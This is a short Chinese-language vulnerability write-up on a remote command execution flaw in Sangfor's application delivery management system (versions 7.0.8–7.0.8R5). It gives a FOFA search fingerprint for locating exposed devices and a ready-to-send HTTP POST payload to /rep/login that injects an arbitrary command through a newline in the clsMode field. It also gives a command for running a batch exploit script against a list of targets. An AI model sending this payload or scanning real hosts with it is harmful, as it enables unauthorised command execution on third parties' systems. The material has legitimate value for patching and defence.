


# 深信服应用交付系统远程命令执行

## 漏洞描述

深信服/rep/login下clsMode在处理方法名时可绕过执行

## 漏洞影响

```
深信服 应用交付管理系统 7.0.8-7.0.8R5
```

## FOFA

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面



目录特征/rep/login


验证POC,clsMode字段%0A截断

```
POST /rep/login
Host:X

clsMode=cls_mode_login%0A需要执行的命令%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```



python批量poc

```
python sxfADRCE.py -t xxx.txt
```


